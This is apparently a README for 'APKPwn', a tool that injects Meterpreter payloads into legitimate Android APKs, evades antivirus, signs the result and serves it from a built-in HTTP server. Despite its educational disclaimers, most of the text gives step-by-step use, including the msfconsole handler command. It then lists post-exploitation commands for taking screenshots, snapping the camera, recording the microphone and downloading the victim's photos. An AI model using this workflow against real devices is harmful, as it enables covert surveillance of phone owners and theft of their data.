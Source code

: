 # APKPwn - Android AV Evasion & Payload Injection Tool

APKPwn is a cybersecurity awareness tool designed to generate infected APKs with **Meterpreter** payloads. This tool is intended for educational purposes to demonstrate the risks of poorly managed mobile applications, particularly installing untrusted software.

> **⚠️ IMPORTANT:**
> This project is for educational and awareness purposes only. Any malicious use of this tool is strictly prohibited. **Never use the generated APKs in a real environment or without explicit consent.** The tool is designed for secure testing environments only.

## Features
- Generate Android payloads using `msfvenom`.
- AV evasion for testing on Android apps.
- Integrated APK signing.
- Built-in HTTP server to host and serve malicious APKs.

## Requirements

- Linux system (tested on Ubuntu/Debian).
- Metasploit Framework installed.
- The following dependencies should be present:
  - `apktool`
  - `openjdk-11-jdk`
  - `apksigner`
  - `zipalign`
  
If the dependencies are not installed, the tool will attempt to install them automatically.

## Installation

1. Clone the repository to your machine:

    ```bash
    git clone https://github.com/your-username/APKPwn.git
    cd APKPwn
    ```

2. Install the dependencies:

    The tool will check for the required dependencies and prompt you to install them if necessary.

    ```bash
    python3 apkpwn.py
    ```

3. Run the tool:

    ```bash
    python3 apkpwn.py
    ```

    Follow the on-screen instructions to select the payload, set host and port options, and create the infected APK.

## Usage

### Step 1: Generate the infected APK

Once the tool is launched, you will need to provide the following information:
- **LHOST**: The IP address of your machine (automatically detected by the tool).
- **LPORT**: The port on which Metasploit will listen for connections.
- **Original APK**: Path to a legitimate APK you want to inject the payload into.
- **Output APK**: Name of the malicious APK that will be generated.

### Step 2: Start Metasploit and wait for a connection

The tool will generate a `meterpreter_handler.rc` file to help you start the Metasploit listener:

    ```bash
    msfconsole -r meterpreter_handler.rc
    ```

This will launch a handler that will wait for a connection from the infected APK.

### Step 3: Start the HTTP server

Once the malicious APK is generated, the tool will start an HTTP server on your machine to serve the APK:

    ```bash
    http://your-ip:8000/your_malicious_apk.apk
    ```

The goal is to raise awareness of the dangers of APKs downloaded from unofficial sources.

### Step 4: Open a Meterpreter session

When the user installs and runs the infected APK on their device, a Meterpreter session will open. You can then interact with the compromised device:

    ```bash
    meterpreter > sessions -i [Session ID]
    ```

## Awareness Scenario

Here’s a typical awareness scenario for an open Meterpreter session on an Android device.

### 1. **Take a screenshot:**

This demonstrates how an attacker can view the user’s screen:

    ```bash
    meterpreter > screenshot
    ```

### 2. **Retrieve device information:**

To show the amount of information accessible to the attacker:

    ```bash
    meterpreter > sysinfo
    ```

### 3. **Check if the device is rooted:**

Shows how the attacker can check if the device has root permissions:

    ```bash
    meterpreter > check_root
    ```

### 4. **Activate the camera and take a picture:**

A powerful example of how privacy can be compromised:

    ```bash
    meterpreter > webcam_snap
    ```

### 5. **Activate the microphone and record audio:**

Demonstrates how the attacker can record the user’s environment:

    ```bash
    meterpreter > record_mic
    ```

### 6. **Extract files from the device:**

Shows that all the user's data can be exfiltrated:

    ```bash
    meterpreter > ls /sdcard/
    meterpreter > download /sdcard/DCIM/photo.jpg
    ```

## Disclaimer

**APKPwn is strictly for educational and awareness purposes.** Use this tool only in controlled environments with the authorization of all involved parties. Malicious use may result in severe legal consequences.

## Contributions

Contributions are welcome! If you would like to improve the tool, feel free to submit a Pull Request.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
